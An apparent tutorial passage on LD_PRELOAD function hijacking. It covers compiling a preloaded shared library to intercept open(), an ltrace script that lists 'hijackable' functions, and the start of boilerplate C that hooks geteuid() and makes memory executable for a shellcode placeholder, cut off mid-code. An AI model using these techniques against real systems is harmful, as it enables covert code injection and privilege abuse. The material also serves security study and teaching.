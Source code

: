 #### 2. Compile the Shared Library

```sh
gcc -fPIC -shared -o mylib.so mylib.c
```

#### 3. Set LD_PRELOAD and Execute the Target Program

```sh
export LD_PRELOAD=/path/to/mylib.so
./target_program
```

#### Result

When `target_program` attempts to call the `open` function, the version in `mylib.so` is called instead, which prints a message and fails the open call.


### Script to Identify Non-Repeated Function Calls

Here's a script to trace function calls and find non-repeated ones:

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
    echo "Usage: $0 <binary>"
    exit 1
fi

BINARY=$1

# Run ltrace and capture function calls
ltrace -c ./$BINARY 2>&1 | awk '/^[^ ]/ {print $1}' | sort | uniq -c | sort -n | tee ltrace_output.txt

# Display potential hijackable functions (called only once)
echo "Functions called only once:"
awk '$1 == 1 {print $2}' ltrace_output.txt
```

### Boilerplate C Code for Hijacking

Here's some boilerplate C code that uses `fork()` and includes a place for adding shellcode. We'll use `geteuid()` as an example target function.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <errno.h>

int (*old_geteuid)(void);

void run_shellcode() {
    unsigned char shellcode[] = {
        /* Add your shellcode here */
    };

    intptr_t pagesize = sysconf(_SC_PAGESIZE);
    if (mprotect((void *)((intptr_t)shellcode & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC) != 0) {
        perror("mprotect");
```